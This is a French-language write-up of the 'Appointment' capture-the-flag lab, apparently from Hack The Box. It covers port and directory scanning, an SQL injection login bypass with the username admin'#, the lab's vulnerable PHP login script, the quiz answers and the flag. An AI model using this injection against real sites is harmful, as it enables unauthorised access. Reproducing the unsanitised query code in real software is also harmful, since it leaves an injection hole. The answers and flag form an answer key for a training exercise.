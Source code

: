 
# APPOINTMENT

![alt text](image.png)

#databases #apache #mariadb #PHP #SQL #reconnaissance #SQLinjection

## 1. Méthodologie

On lance un `nmap -sV -p- IP_cible` :

```
└──╼ [★]$ nmap -sV -p- 10.129.167.140
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 07:12 CST
Nmap scan report for 10.129.167.140
Host is up (0.0097s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

Un serveur web tourne sur le port 80. Nous allons de nouveau énumérer les répertoires du serveur web avec `gobuster dir -u http://IP_cible/ -w /usr/share/dirb/wordlists/common.txt` 

```
└──╼ [★]$ gobuster dir -u http://10.129.167.140/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.167.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.167.140/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.167.140/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.167.140/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.167.140/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.167.140/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
Les status 403 ne répondent pas, les status 301 sont des redirections et les status 200 aboutissent. Il serait intéressant ici de se connecter sur l'interface web de la page index.php qui existe. Une page de login apparait:

![alt text](image-1.png)

Il faut réussir à injecter une commande pour qu'elle soit interprété par le service: une injection SQL. Pour se faire on entre en utilisateur la ligne suivante: `admin'#`

![alt text](image-2.png)

On arrive donc à passer en on récupère le flag.

## 1.1 Explication de l'injection SQL dans notre cas présent:

Voici le script en SQL qui est utilisé pour l'authentification:

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL 
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'"; 
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
  # Checks if there's at least 1 result, and if yes:
  $_SESSION['username'] = $username; # Creates a session with the specified $username.
  $_SESSION['password'] = $password; # Creates a session with the specified $password.
  header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
  header("location:login.php");
  # No redirection, as the login failed in the case the $count variable is not equal to 1, 
HTTP Response code 200 OK.
}
?>
```
Login utilisé: `admin'#`

On termine le login par une apostrophe autorisant le script à chercher un ID pour admin. En ajoutant le #, on commente le reste de la ligne du script permettant ainsi au script de ne chercher qu'un utilisateur nommé "admin" sans s'occuper de son mot de passe. Cet utilisateur a existé donc le login est autorisé. Si celui-ci n'existe pas, il faut essayer avec d'autres login par défaut. Etant donné que dans le login nous demandons au script d'exclure la partie mot de passe, on peut rentrer ce qu'on veut dans le champ "password", cela ne sera pas pris en compte car la requête exclut cette partie de correspondance. Et le script retournera une valeur de "1" qui signifie positif si l'utilisateur a existé/existe.

Voilà donc à quoi ressemble notre requête modifiée:

![alt text](image-3.png)

On indique bien au script de ne considérer que le login, qui est ici "admin" et de commenter le reste donc de ne pas prendre en compte la correspondance de mot de passe.


## 2. Questions

### Task 1

What does the acronym SQL stand for?

```
Structured query language
```

### Task 2

What is one of the most common type of SQL vulnerabilities?

```
SQL injection
```

### Task 3

What is the 2021 OWASP Top 10 classification for this vulnerability?

```
A03:2021-injection
```

### Task 4

What does Nmap report as the service and version that are running on port 80 of the target?

```
Apache httpd 2.4.38 ((Debian))
```

### Task 5

What is the standard port used for the HTTPS protocol?

```
443
```

### Task 6

What is a folder called in web-application terminology?

```
directory
```

### Task 7

What is the HTTP response code is given for 'Not Found' errors?

```
404
```

### Task 8

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```
dir
```

### Task 9

What single character can be used to comment out the rest of a line in MySQL?

```
#
```

### Task 10

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

```
congratulations
```

### Flag

```
e3d0796d002a446c0e622226f42e9672
```
